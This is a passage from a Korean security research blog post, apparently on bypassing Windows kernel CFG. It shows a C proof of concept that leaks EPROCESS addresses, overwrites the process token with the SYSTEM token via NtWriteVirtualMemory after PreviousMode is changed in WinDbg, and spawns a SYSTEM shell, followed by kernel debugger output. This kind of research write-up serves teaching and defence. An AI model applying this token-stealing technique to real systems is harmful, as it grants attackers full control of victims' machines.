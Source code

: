 ```c
	HANDLE hProc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid);
	GetObj(&EPROCESS, pid, hProc);
	printf("[+] Current EPROCESS: %p\n", EPROCESS);

	GetObj(&SYSTEM_EPROCESS, 4, (HANDLE)4);
	printf("[+] System EPROCESS: %p\n", SYSTEM_EPROCESS);

	printf("modify previousmode in windbg and press any button..\n");
	getch();

	// [2]
	pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)EPROCESS + 0x4b8 , (ULONGLONG)SYSTEM_EPROCESS + 0x4b8, sizeof(ULONGLONG), &dwbytes);

	// [3]
	system("cmd.exe");
	
}
```

> 전체 소스코드 : [https://github.com/hackyboiz/kcfg-bypass/blob/main/example-with-windbg.c](https://github.com/hackyboiz/kcfg-bypass/blob/main/example-with-windbg.c)
> 

위 코드는 다음과 같이 동작합니다.

1.  `NtQuerySystemInformation` API를 통해 필요한 주소 leak 
2. 유저모드 프로세스의 토큰값을 시스템 프로세스로 overwrite
3. 시스템 권한의 cmd 스폰

정상적인 실행이라면 유저모드 프로세스는 `pNtWriteVirtualMemory`를 통해 커널 메모리 RW가 불가능하기 때문에 아무 일도 발생하지 않습니다..만! 우린 이제 `pNtWriteVirtualMemory`호출 전 디버거에서 PreviouMode를 수정하고 권한 상승을 할겁니다.

![image.png](ko/image%205.png)

실행하면 현재 프로세스의 KTHREAD/EPROCESS 주소와 SYSTEM 프로세스 EPROCESS 주소를 출력합니다. 이걸 복사해두고 windbg로 갑니다.

```c
2: kd> dt _KTHREAD FFFFDC0FC3780080
nt!_KTHREAD
   +0x000 Header           : _DISPATCHER_HEADER
   +0x018 SListFaultAddress : (null) 
   +0x020 QuantumTarget    : 0x8ad5b1e
   +0x028 InitialStack     : 0xfffff500`166f7c30 Void
   +0x030 StackLimit       : 0xfffff500`166f1000 Void
   +0x038 StackBase        : 0xfffff500`166f8000 Void
   +0x040 ThreadLock       : 0
   +0x048 CycleTime        : 0x4bf645c
   +0x050 CurrentRunTime   : 0
   +0x054 ExpectedRunTime  : 0xbe0b
   +0x058 KernelStack      : 0xfffff500`166f7000 Void
   +0x060 StateSaveArea    : 0xfffff500`166f7c80 _XSAVE_FORMAT
...
   +0x220 Process          : 0xffffdc0f`c39640c0 _KPROCESS
   +0x228 UserAffinity     : 0xffffdc0f`c3780a68 _KAFFINITY_EX
   +0x230 UserAffinityPrimaryGroup : 0
```